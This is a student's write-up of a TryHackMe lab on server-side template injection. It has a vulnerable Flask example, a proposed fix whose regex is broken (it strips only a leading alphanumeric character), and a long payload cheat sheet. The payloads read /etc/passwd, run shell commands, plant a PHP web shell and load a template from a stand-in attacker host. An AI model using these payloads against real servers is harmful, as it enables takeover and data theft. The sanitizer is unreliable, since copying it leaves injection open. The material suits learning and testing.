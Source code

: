 # Report on THM SSTI room 

![completed](completed.png)

<h2>What is SSTI</h2>
Template engines are designed to generate web pages by combining fixed templates with volatile data. 
Server-side template injection attacks can occur when user input is concatenated directly into a template, rather than passed in as data.
This allows attackers to inject arbitrary template directives in order to manipulate the template engine, 
often enabling them to take complete control of the server. 
As the name suggests, server-side template injection payloads are delivered and evaluated server-side,
potentially making them much more dangerous than a typical client-side template injection. 

SSTI basically works because Template Engines can evaluate operations using certain special operators like ```${{<%[%'"}}%\```.

```
So if user input is directly passed without sanitization and not in the proper syntax such that only data gets passed, then SSTI vulnerabilities arise.
Eg:


```
from flask import Flask, render_template_string
app = Flask(__name__)

@app.route("/profile/<user>")
def profile_page(user):
    template = f"<h1>Welcome to the profile of {user}!</h1>"

    return render_template_string(template)

app.run()

```

Here input is neither sanitized nor passed only as data .

The correct way should be something like:
            
```
import re

# Remove everything that isn't alphanumeric
user = re.sub("^[A-Za-z0-9]", "", user)
template = "<h1>Welcome to the profile of {{ user }}!</h1>"
return render_template_string(template, user=user)
```

<h2>Exploitation:</h2>

To exploit a SSTI vulnerability we first need to identify the template engine. 
Although there are a huge number of templating languages, many of them use very similar syntax that is specifically chosen not to clash with HTML characters.
 As a result, it can be relatively simple to create probing payloads to test which template engine is being use
The following decision tree can help with this.

![tree](tree.png)

To follow the decision tree, start at the very left and include the variable in your request. Follow the arrow depending on the output:

    Green arrow - The expression evaluated (i.e 49)
    Red arrow - The expression is shown in the output (i.e ${7*7})

But the same payload can sometimes return a successful response in more than one template language. For example, the payload {{7*'7'}} returns 49 in Twig and 7777777 in Jinja2. 
Therefore, it is important not to jump to conclusions based on a single successful response. 

Got this very useful repo while doing this:

https://github.com/swisskyrepo/PayloadsAllTheThings

An excerpt for some common template engines:

```
Cheatsheet

--------------------------------------------------------------------Polyglot:
${{<%[%'"}}%\
--------------------------------------------------------------------FreeMarker (Java):
${7*7} = 49
<#assign command="freemarker.template.utility.Execute"?new()> ${ command("cat /etc/passwd") }
--------------------------------------------------------------------
(Java):
${7*7}
${{7*7}}
${class.getClassLoader()}
${class.getResource("").getPath()}
${class.getResource("../../../../../index.htm").getContent()}
${T(java.lang.System).getenv()}
${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('/etc/passwd').toURL().openStream().readAllBytes()?join(" ")}
--------------------------------------------------------------------
Twig (PHP):
{{7*7}}
{{7*'7'}}
{{dump(app)}}
{{app.request.server.all|join(',')}}
"{{'/etc/passwd'|file_excerpt(1,30)}}"@
{{_self.env.setCache("ftp://attacker.net:2121")}}{{_self.env.loadTemplate("backdoor")}}
--------------------------------------------------------------------
Smarty (PHP):
{$smarty.version}
{php}echo `id`;{/php}
{Smarty_Internal_Write_File::writeFile($SCRIPT_NAME,"<?php passthru($_GET['cmd']); ?>",self::clearConfig())}
--------------------------------------------------------------------Handlebars (NodeJS):
wrtz{{#with "s" as |string|}}
{{#with "e"}}
{{#with split as |conslist|}}
{{this.pop}}
{{this.push (lookup string.sub "constructor")}}
{{this.pop}}
{{#with string.split as |codelist|}}
{{this.pop}}
{{this.push "return require('child_process').exec('whoami');"}}
{{this.pop}}
{{#each conslist}}
{{#with (string.sub.apply 0 codelist)}}
{{this}}
{{/with}}
{{/each}}
{{/with}}
{{/with}}
{{/with}}
{{/with}}
--------------------------------------------------------------------Velocity:
#set($str=$class.inspect("java.lang.String").type)
#set($chr=$class.inspect("java.lang.Character").type)
#set($ex=$class.inspect("java.lang.Runtime").type.getRuntime().exec("whoami"))
$ex.waitFor()
#set($out=$ex.getInputStream())
#foreach($i in [1..$out.available()])
$str.valueOf($chr.toChars($out.read()))
#end
-------------------------------------------------------------------
ERB (Ruby):
<%= system("whoami") %>
<%= Dir.entries('/') %>
<%= File.open('/example/arbitrary-file').read %>
--------------------------------------------------------------------
Django Tricks (Python):
{% debug %}
{{settings.SECRET_KEY}}
--------------------------------------------------------------------
Tornado (Python):
{% import foobar %} = Error
{% import os %}{{os.system('whoami')}}
--------------------------------------------------------------------
Mojolicious (Perl):
<%= perl code %>
<% perl code %>
--------------------------------------------------------------------Flask/Jinja2: Identify:
{{ '7'*7 }}
{{ [].class.base.subclasses() }} # get all classes
{{''.class.mro()[1].subclasses()}}
{%for c in [1,2,3] %}{{c,c,c}}{% endfor %}
--------------------------------------------------------------------Flask/Jinja2: 
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
--------------------------------------------------------------------
Jade:
#{root.process.mainModule.require('child_process').spawnSync('cat', ['/etc/passwd']).stdout}
--------------------------------------------------------------------
Razor (.Net):
@(1+2)
@{// C# code}
--------------------------------------------------------------------

```

Further Refrences:
https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection
https://github.com/swisskyrepo/PayloadsAllTheThings